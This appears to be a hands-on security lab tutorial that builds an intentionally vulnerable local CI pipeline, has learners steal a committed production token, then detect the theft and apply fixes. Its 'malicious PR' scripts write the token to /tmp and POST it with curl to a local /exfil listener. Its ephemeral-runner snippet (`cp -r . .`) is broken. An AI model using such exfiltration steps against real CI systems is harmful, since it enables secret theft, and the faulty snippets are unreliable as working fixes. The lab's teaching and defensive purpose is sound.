







# Lab: insecure\_pipeline\_exploitation

## Goals & learning outcomes

1. Reproduce an example CI pipeline that contains insecure secrets handling patterns.
2. Exploit two realistic misconfigurations to read or exfiltrate a simulated “production” secret (in an isolated environment).
3. Use logging and repo history to find evidence of the exploitation.
4. Implement and verify at least three mitigations (ex:remove secret from repo, limit pipeline trust, use ephemeral runner patterns, mask prints).

---

## What the lab simulates?
* A single Git repository containing code, a misplaced secret file, and a simple CI workflow that a "CI runner" (a local script) executes.
* The CI workflow has these intentionally insecure characteristics:

  1. Secrets stored in repo (file `secrets/prod_token.txt`).
  2. The runner injects repo secrets into environment and **prints** build output to logs.
  3. The pipeline treats pull requests from forks / untrusted code with the same privileges.
  4. A “shared” runner emulates non-ephemeral behavior (workspace persists between jobs).
  5. A stage uses a third-party script/step that the attacker can modify in PR context (simulating compromised action).

All exploitation and detection occurs locally: exfiltration is to a **local** listener.

---

## Required tooling

* A Linux VM (or WSL) with: `git`, `bash`, `python3` (for local HTTP listener), and `nc` (optional). No external internet required.
* (Optional) `docker` if you prefer to run runner inside a container — not required.

---

## Repository layout (what you will create)

```
insecure_pipeline_exploitation/
├─ README.md
├─ secrets/
│  └─ prod_token.txt        # intentionally committed "secret"
├─ src/
│  └─ app.py
├─ .ci/
│  ├─ run-ci.sh            # the local "CI runner"
│  ├─ jobs/
│  │  ├─ build.sh
│  │  └─ deploy.sh
│  └─ actions/
│     └─ third_party_step.sh   # simulates a third-party action (modifiable in PR)
├─ .gitignore
└─ exercises.md
```

---

## Step-by-step lab setup (copy-paste friendly, ofc ;) )

Open a terminal in an isolated environment and run the following to create the repo:

```bash
mkdir insecure_pipeline_exploitation
cd insecure_pipeline_exploitation
git init

mkdir -p secrets src .ci/jobs .ci/actions
echo "PROD_API_TOKEN=super-secret-token-DO-NOT-USE" > secrets/prod_token.txt

cat > src/app.py <<'PY'
print("Hello from sample app")
PY

cat > .ci/actions/third_party_step.sh <<'SH'
#!/usr/bin/env bash
# This simulates a vendor action that runs during the pipeline.
# Intentionally insecure: prints env and can be edited by a contributor in a PR.
echo "Third-party step running"
if [ -n "$PROD_API_TOKEN" ]; then
  echo "TOKEN_IN_ENV=$PROD_API_TOKEN"
fi
SH
chmod +x .ci/actions/third_party_step.sh

# jobs
cat > .ci/jobs/build.sh <<'SH'
#!/usr/bin/env bash
set -euo pipefail
echo "=== BUILD STEP ==="\
echo "Using token: $PROD_API_TOKEN"
mkdir -p build
echo "artifact from $(git rev-parse --short HEAD)" > build/artifact.txt
SH
chmod +x .ci/jobs/build.sh

cat > .ci/jobs/deploy.sh <<'SH'
#!/usr/bin/env bash
set -euo pipefail
echo "=== DEPLOY STEP ==="
# Call third-party action
.git_ci_actions/third_party_step.sh
echo "Deploy using $PROD_API_TOKEN"
SH
chmod +x .ci/jobs/deploy.sh

cat > .ci/run-ci.sh <<'SH'
#!/usr/bin/env bash
set -euo pipefail
# Simple local CI runner that simulates env injection.
# Workspace persists in the repo dir (to simulate shared runner).
# Copies actions to a .git_ci_actions dir (simulating an action checkout)
rm -rf .git_ci_actions || true
mkdir -p .git_ci_actions
cp .ci/actions/* .git_ci_actions/
export PROD_API_TOKEN_FILE="./secrets/prod_token.txt"

export PROD_API_TOKEN=\$(cat \$PROD_API_TOKEN_FILE)

.ci/jobs/build.sh 2>&1 | tee ci-build.log

.ci/jobs/deploy.sh 2>&1 | tee ci-deploy.log
SH
chmod +x .ci/run-ci.sh

cat > README.md <<'MD'
Follow exercises in exercises.md
MD

cat > exercises.md <<'MD'
Exercises:
1) Run the pipeline: ./ .ci/run-ci.sh
2) Observe logs and find the secret leak.
3) Simulate an attacker PR that modifies .ci/actions/third_party_step.sh to exfiltrate the secret to a local listener.
4) Detect the exfiltration via logs and git history.
5) Implement mitigations: remove secret from repo, prevent actions in PRs reading PROD_API_TOKEN, and make runner ephemeral.
MD

git add .
git commit -m "Initial vulnerable lab repo"
```

---


- Script for fixing some bugs:

```bash
#!/usr/bin/env bash
set -euo pipefail

rm -rf insecure_pipeline_exploitation || true
mkdir insecure_pipeline_exploitation
cd insecure_pipeline_exploitation

git init --initial-branch=main

mkdir -p secrets src .ci/jobs .ci/actions

echo "super-secret-token-DO-NOT-USE" > secrets/prod_token.txt

cat > src/app.py <<'PY'
print("Hello from sample app")
PY

cat > .ci/actions/third_party_step.sh <<'SH'
#!/usr/bin/env bash
# This simulates a vendor action that runs during the pipeline.
# Intentionally insecure for the lab: prints env and can be edited by a contributor in a PR.
echo "Third-party step running"
if [ -n "${PROD_API_TOKEN:-}" ]; then
  echo "TOKEN_IN_ENV=${PROD_API_TOKEN}"
fi
SH
chmod +x .ci/actions/third_party_step.sh

# jobs
cat > .ci/jobs/build.sh <<'SH'
#!/usr/bin/env bash
set -euo pipefail
echo "=== BUILD STEP ==="
echo "Using token: ${PROD_API_TOKEN:-}"
mkdir -p build
commit_short=$(git rev-parse --short HEAD 2>/dev/null || echo "no-git")
echo "artifact from ${commit_short}" > build/artifact.txt
SH
chmod +x .ci/jobs/build.sh

cat > .ci/jobs/deploy.sh <<'SH'
#!/usr/bin/env bash
set -euo pipefail
echo "=== DEPLOY STEP ==="
if [ -x .git_ci_actions/third_party_step.sh ]; then
  .git_ci_actions/third_party_step.sh
else
  echo "No third-party action present"
fi
echo "Deploy using ${PROD_API_TOKEN:-}"
SH
chmod +x .ci/jobs/deploy.sh

cat > .ci/run-ci.sh <<'SH'
#!/usr/bin/env bash
set -euo pipefail
# Simple local CI runner that simulates env injection.
# Workspace persists in the repo dir (to simulate shared runner).
# Copies actions to a .git_ci_actions dir (simulating an action checkout)

rm -rf .git_ci_actions || true
mkdir -p .git_ci_actions
cp .ci/actions/* .git_ci_actions/ 2>/dev/null || true

PROD_API_TOKEN_FILE="./secrets/prod_token.txt"

# Read the token robustly:
# - If file is KEY=VALUE, strip the KEY= part.
# - If file contains only the token, use it unchanged.
if [[ -f "$PROD_API_TOKEN_FILE" ]]; then
  raw=$(tr -d '\r\n' < "$PROD_API_TOKEN_FILE")
  if [[ "$raw" == *=* ]]; then
    export PROD_API_TOKEN="${raw#*=}"
  else
    export PROD_API_TOKEN="$raw"
  fi
else
  echo "WARNING: $PROD_API_TOKEN_FILE not found" >&2
  export PROD_API_TOKEN=""
fi

GIT_BRANCH=$(git rev-parse --abbrev-ref HEAD 2>/dev/null || echo "local")

echo "Runner: branch=$GIT_BRANCH"

.ci/jobs/build.sh 2>&1 | tee ci-build.log

.ci/jobs/deploy.sh 2>&1 | tee ci-deploy.log

SH
chmod +x .ci/run-ci.sh

cat > README.md <<'MD'
# insecure_pipeline_exploitation

This lab intentionally demonstrates insecure CI secrets handling. Follow exercises in exercises.md.
MD

cat > exercises.md <<'MD'
Exercises:
1) Run the pipeline: ./.ci/run-ci.sh
2) Observe logs and find the secret leak (ci-build.log, ci-deploy.log).
3) Simulate an attacker PR that modifies .ci/actions/third_party_step.sh to exfiltrate the secret to a local listener.
4) Detect the exfiltration via logs and git history.
5) Implement mitigations: remove secret from repo, prevent actions in PRs reading PROD_API_TOKEN, and make runner ephemeral.
MD

cat > .gitignore <<'GI'
secrets/
ci-build.log
ci-deploy.log
build/
.git_ci_actions/
GI

git add .
git commit -m "Initial vulnerable lab repo (fixed runner)"
echo "Lab repo created at: $(pwd)"
echo "Run the vulnerable pipeline with: bash -x .ci/run-ci.sh"
```


## Running the vulnerable pipeline (observe the leak)


How to run and test?

1. Save the script above into a file (for example `setup_lab.sh`), make it executable and run it:


```bash
chmod +x setup_lab.sh
./setup_lab.sh
```


1. In one terminal, run the CI runner:

```bash
bash -x .ci/run-ci.sh
```

2. Look at `ci-build.log` and `ci-deploy.log`. You will see the token printed in cleartext from both build and third-party step output.

>[!IMPORTANT]
>
> printing secrets to logs and committing secrets in repo are immediate, observable failures.

---

## Exercise A — Exploitation 1: read the secret from persisted workspace

**Goal:** show how a contributor (PR) can get the secret from the workspace if runner is shared/persistent.

**your steps:**

1. Simulate a malicious branch that modifies the third-party action to write `PROD_API_TOKEN` to a file in workspace (instead of exfiltrating externally).

```bash
git checkout -b malicious-pr
cat > .ci/actions/third_party_step.sh <<'SH'
#!/usr/bin/env bash
echo "$PROD_API_TOKEN" > /tmp/stolen_token.txt
echo "Wrote token to /tmp/stolen_token.txt"
SH
chmod +x .ci/actions/third_party_step.sh
git add .ci/actions/third_party_step.sh
git commit -m "malicious: write token locally"
./.ci/run-ci.sh
```



2. Inspect `/tmp/stolen_token.txt` to see the token.





**Why this is safe?** everything stays inside the VM and writes to a local file; no network exfiltration used.

---

## Exercise B — Exploitation 2: simulated network exfiltration to localhost listener

**Goal:** show how printed output or a step can "send" secrets if network egress is permitted. But **we restrict to localhost** only in this lab.

**Start a local listener (in a separate terminal):**


- small Python listener that accepts POSTs to /exfil and prints payload

```bash
python3 - <<'PY'
from http.server import BaseHTTPRequestHandler, HTTPServer
class H(BaseHTTPRequestHandler):
    def do_POST(self):
        length = int(self.headers.get('Content-Length',0))
        body = self.rfile.read(length)
        print("==== RECEIVED EXFIL ====")
        print(body.decode())
        self.send_response(200); self.end_headers()
server = HTTPServer(('127.0.0.1', 8000), H)
print("listening on 127.0.0.1:8000")
server.serve_forever()
PY
```




**Now simulate a malicious action that posts token to localhost:8000:**

```bash
git checkout malicious-pr
cat > .ci/actions/third_party_step.sh <<'SH'
#!/usr/bin/env bash
curl -s -X POST http://127.0.0.1:8000/exfil -d "token=$PROD_API_TOKEN"
echo "Posted token to localhost:8000"
SH
chmod +x .ci/actions/third_party_step.sh
git add .ci/actions/third_party_step.sh
git commit -m "malicious: post token to localhost"
./.ci/run-ci.sh
```



Check the listener terminal — it will print the received POST body. //the simulated exfiltration




>[!IMPORTANT]
>
> the listener is bound to `127.0.0.1` so this demonstrates exfiltration *only* within the VM.

---

## Detection & Forensics tasks (what YOU should do, not mandatory. These are just advices for real cases.)

* Search logs:

```bash
grep -R "super-secret-token" -n .
```




```bash
grep -R "PROD_API_TOKEN" -n . || true
```



* Inspect git history of `.ci/actions/third_party_step.sh` to find the malicious commit (use `git log -p .ci/actions/third_party_step.sh`).
* Check filesystem for `/tmp/stolen_token.txt` or the listener output to find evidence of exfiltration.

---

## Remediation tasks (apply fixes, validate)

You should apply at least these mitigations and verify the leak is closed:

1. **Remove committed secret from repo**

   * Delete file, rotate token (in lab, replace with new value in memory only), and rewrite history if needed.

   ```bash
   git rm secrets/prod_token.txt
   git commit -m "remove secret from repo"
   ```

   (Discuss git history and `git filter-repo` / `bfg` for real cases.)

2. **Stop injecting secrets into logs / avoid printing**

   * Update `.ci/jobs/build.sh` and `.ci/actions/*` to **never** echo the token. Instead log a redacted placeholder.

   ```bash
   # example change: replace echo "Using token: $PROD_API_TOKEN" with:
   echo "Using token: [REDACTED]"
   ```

3. **Treat actions from untrusted sources as untrusted**

   * Simulate CI behavior that **disallows** using `.ci/actions` content from untrusted PRs: in `run-ci.sh`, if `GIT_BRANCH` looks like `malicious-pr`, refuse running third\_party\_step.sh (simulate job gating). Implement a check:

   ```bash
   if [[ "$GIT_BRANCH" == malicious-* ]]; then
     echo "Untrusted branch — skipping third-party actions"
   else
     .git_ci_actions/third_party_step.sh
   fi
   ```

4. **Make runner ephemeral**

   * Change `run-ci.sh` to create workspace in a temp dir and destroy it after the job to avoid persistence:

   ```bash
   TMPROOT=$(mktemp -d)
   cp -r . .
   ```

>[!TIP]
>
>run jobs inside TMPROOT then rm -rf $TMPROOT

5. **Pin third-party actions / use checksum or vendor code review**

   * In the lab: simulate pinning by making a copy of the vetted action into `.ci/actions/vetted_third_party.sh` and run that instead of unreviewed content.

6. **Introduce a policy to block secrets in Git and add a pre-commit hook**

   * Provide a simple `pre-commit` hook that scans for the token string and blocks commits. Example:

   ```bash
   cat > .git/hooks/pre-commit <<'SH'
   if grep -R "super-secret-token" --exclude-dir=.git; then
     echo "Secret present! Abort commit."
     exit 1
   fi
   exit 0
   SH
   chmod +x .git/hooks/pre-commit
   ```

7. **Demonstrate detection improvements**

   * Show how structured logging or a masking filter prevents token leakage.

After applying mitigations, run the CI again and verify that:

* the token is not printed anywhere,
* the malicious branch cannot read or post the secret, and
* no residual files remain after jobs complete.


---
